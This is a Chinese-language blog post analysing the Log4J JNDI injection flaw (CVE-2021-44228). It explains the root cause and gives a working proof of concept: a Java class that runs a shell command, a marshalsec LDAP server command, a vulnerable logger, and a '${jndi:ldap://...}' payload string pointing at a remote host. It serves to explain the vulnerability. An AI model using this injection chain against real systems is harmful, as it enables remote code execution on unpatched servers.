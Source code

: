 ```yaml
---
title: Log4J 漏洞浅析（CVE-2021-44228）
author: fangfeng
date: 2021-12-10
tags:
  - CVE
  - Log4J
categories:
  - CVE
---
```


12月10日凌晨爆出的 Log4J 漏洞引起了广泛关注，被称为“核弹级”漏洞。费了一番功夫搞懂了来龙去脉，就用本文来剖析下漏洞根因。

## 前置知识：JNDI

Java 命名和目录接口(JNDI) 为使用Java 编写的应用程序提供命名和目录功能，以一种统一的接口形式支持 LDAP、DNS、RMI 等丰富的 SPI 实现，允许 Java 程序通过名称向目录服务查找并检出数据与对象。

![JNDI Arch](https://img.ffutop.com/945A6598-E86B-404E-AAB1-CE0F0679E91C.gif)

图源：[https://docs.oracle.com/javase/tutorial/jndi/overview/index.html](https://docs.oracle.com/javase/tutorial/jndi/overview/index.html)

另一方面，轻型目录访问协议(LDAP)等协议能够提供 Java 对象的目录存储范式[3]。

> LDAP can be used to store Java objects by using several special Java attributes. There are at least two ways a Java object can be represented in an LDAP directory:
1. Using Java serialization   [https://docs.oracle.com/javase/jndi/tutorial/objects/storing/serial.html](https://docs.oracle.com/javase/jndi/tutorial/objects/storing/serial.html)
2. Using JNDI References [https://docs.oracle.com/javase/jndi/tutorial/objects/storing/reference.html](https://docs.oracle.com/javase/jndi/tutorial/objects/storing/reference.html)
> 

其中取回的 Java 对象将被解码并最终被 Jdni Manager 执行——也就是支持远程代码执行。

```java
public void run() {
		Context context = new InitialLdapContext();
	  context.lookup("jndi:ldap://REMOTE.SERVER.COM:1389/a");
}
```

## Log4J 漏洞

```java
LOGGER.error("user not found. username: {}", username);
```

一般来说，我们会在日志中记录用户输入，并以此来排查用户交互行为导致的各种异常。而这也是该漏洞被称为高危的原因。比如上例中的 `username` ，一旦恶意用户填充上 `${jndi:ldap://REMOTE.SERVER.COM:1389/a}`（由用户控制的 LDAP 服务器），Log4J 会填充 `{}` ，而更近一步，因为内容被替换为 `${xxx}`  ，又触发了 `Context.lookup()`， 也就形成了 `JNDI Injection` ，向应用程序注入恶意代码，从而控制服务器等。

## PoC

需要注入的恶意代码，为目标 MacOS 打开 计算器。

```java
public class Injection {
    static {
        try {
            String[] cmd = {"bash", "-c", "open -a /System/Applications/Calculator.app"};
            java.lang.Runtime.getRuntime().exec(cmd).waitFor();
        } catch ( Exception e ) {
            e.printStackTrace();
        }
    }
}
```

上述代码使用 `javac` 编译后快速构建 HTTP 文件服务 `python -m SimpleHTTPServer`

利用 [`https://github.com/mbechler/marshalsec`](https://github.com/mbechler/marshalsec) 搭建 LDAP 服务。

```java
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer '<http://127.0.0.1:8000/#Injection>' 1389
```

漏洞程序如下

```java
public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) throws IOException, NamingException {
        BufferedReader br = new BufferedReader(new InputStreamReader(System.in));
        String username = br.readLine();
        logger.error("user not found. username: {}", username);
    }
}
```

启动漏洞程序并输入 `${jndi:ldap://127.0.0.1:1389}` 。

![](https://img.ffutop.com/9C5B023E-A1A1-41CE-AF84-3378ED3F180A.png)

## 参考

[1]. [https://nvd.nist.gov/vuln/detail/CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

[2]. [https://docs.oracle.com/javase/jndi/tutorial/objects/index.html](https://docs.oracle.com/javase/jndi/tutorial/objects/index.html)

[3]. [https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf)
